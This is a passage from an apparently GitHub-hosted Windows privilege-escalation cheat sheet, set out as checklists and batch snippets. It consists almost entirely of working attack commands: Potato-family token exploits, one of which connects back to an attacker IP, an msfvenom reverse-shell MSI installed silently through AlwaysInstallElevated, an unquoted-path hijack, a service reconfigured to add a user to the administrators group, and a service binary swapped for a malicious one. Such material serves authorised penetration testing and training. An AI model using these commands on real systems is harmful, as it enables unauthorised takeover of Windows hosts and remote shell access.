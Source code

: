 - [ ] **JuicyPotato** (Windows 2008-2016): `JuicyPotato.exe -l 1337 -p cmd.exe -a "/c whoami" -t *`
- [ ] **PrintSpoofer** (Windows 10/Server 2016-2019): `PrintSpoofer.exe -i -c cmd`
- [ ] **RoguePotato** (Windows 10/2019): `RoguePotato.exe -r <AttackerIP> -e "cmd.exe" -l 9999`
- [ ] **GodPotato** (Windows 2012-2022): `GodPotato.exe -cmd "cmd /c whoami"`

---

## AlwaysInstallElevated

- [ ] Check both registry keys for `0x1`:
  - `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
  - `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
- [ ] Create MSI: `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=4444 -f msi > exploit.msi`
- [ ] Install: `msiexec /quiet /qn /i exploit.msi`

---

## Quick Wins

### Unquoted Service Paths
```batch
# Find them
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# If path is: C:\Program Files\My Service\service.exe
# Create: C:\Program.exe or C:\Program Files\My.exe
# Restart service
sc stop <service> && sc start <service>
```

### Weak Service Permissions
```batch
# Check permissions
accesschk.exe -uwcqv "Everyone" *

# Modify service
sc config <service> binPath= "net localgroup administrators <user> /add"
sc stop <service> && sc start <service>
```

### Writable Service Binary
```batch
# Check if you can overwrite
icacls "C:\Program Files\Service\service.exe"

# Replace with malicious binary
copy malicious.exe "C:\Program Files\Service\service.exe"

# Restart
sc stop <service> && sc start <service>
```

---